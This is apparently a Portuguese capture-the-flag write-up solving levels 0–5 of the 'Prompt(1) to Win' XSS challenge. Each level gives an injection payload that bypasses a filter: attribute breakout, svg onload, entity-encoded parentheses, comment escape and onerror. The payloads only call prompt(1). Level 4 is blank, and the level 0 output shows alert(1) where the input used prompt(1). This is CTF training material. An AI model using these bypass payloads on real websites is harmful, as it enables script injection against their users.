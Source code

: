 # Prompt(1) to Win
###### Solved by @joaoselim
>This CTF is about XSS, JavaScript, Injeção de Código
## About the challenge
Nesse desafio de XSS(Cross-Site Scripting) temos o objetivo de realizar diversas injeções de código JavaScript, para chamar prompt(1) através de 15 níveis diferentes

## Solutions
#### Desafio 0:

[![questao0.png](https://i.postimg.cc/W4g2WgjP/questao0.png)](https://postimg.cc/kVM3DVBj)

Input:
```
"><script>prompt(1)</script>
```
Nesse primeiro caso temos um código simples, sem filtragem, oque devemos nos atentar é em sair do atributo `value="` usando `"`, e encerrar a tag `input` usando `/>`. A partir daí
inserimos nosso script `<script>prompt(1)</script>`

HTML Source:
```
<input type="text" value=""><script>alert(1)</script>">
```

#### Desafio 1:

[![questao1.png](https://i.postimg.cc/cL9SFhPj/questao1.png)](https://postimg.cc/jD7m5HxQ)

Input:
```
<svg/ onload=prompt(1) 
```
Seguido de uma quebra de linha ou espaço.

Agora começamos a ter que contornar tipos de filtragem. Nessa questão a regex `/<\/?[^>]+>/gi` faz com que ao inserirmos qualquer informação em uma tag HTML encerrada por `>` será 
substituido no código por `''`, para isso, abrimos o construtor `<` e fornecemos um tipo de imagem svg, e usamos uma `/` para que ocorra uma quebra no formato da tag, em seguida afirmamos para o código 
usando o `onload` que ao carregar a imagem deve chamar `prompt(1)`

HTML Source:
```
<article><svg/ onload=prompt(1)
</article>
```

#### Desafio 2:

[![questao2.png](https://i.postimg.cc/13hHLVNK/questao2.png)](https://postimg.cc/zV7KhB7L)

Input:
```
<svg><script>prompt&#40;1)</script>
```
Ainda lidando com filtragem, agora não podemos usar nem `=` nem `(`, ent para isso tem se conhecimento que todas as teclas de um teclado tem um código correspondente, no caso do `(` é `&#40`. Iniciamos nosso input abrindo a tag `<svg>`, concluimos colocando um script dentro dela `<script></script>` e chamando o prompt(1) dentro da tag script

HTML Source:
```
<svg><script>prompt&#40;1)</script>
```

#### Desafio 3:

[![questao3.png](https://i.postimg.cc/yx6bwggd/questao3.png)](https://postimg.cc/9RSb9fB5)

Input:
```
--!><svg onload=prompt(1)
```
Nessa questão nosso input está sendo colocado dentro de `<!--...-->`, então tudo que escrevemos é visto pelo código como comentário, então precisamos encerrar a sessão de comentarios.
Para isso é possível usar de 2 formas, `-->` e `--!>`, mas como temos a filtragem de `->` então temos de usar a segunda opção. 
Então seguimos nosso input com um tipo `svg` em que ao ser carregado chama o `prompt(1)`

HTML Source:
```
<!-- --!><svg onload=prompt(1) -->
```

#### Desafio 4:

[![questao4.png](https://i.postimg.cc/nz5tYGwx/questao4.png)](https://postimg.cc/mzQqTCsp)

Input:
```

```
resolução

HTML Source:
```

```

#### Desafio 5:

[![questao5.png](https://i.postimg.cc/R0kkWZ3C/questao5.png)](https://postimg.cc/GBj7NrJ6)

Input:
```
"type=image src onerror
="prompt(1)
```


HTML Source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```
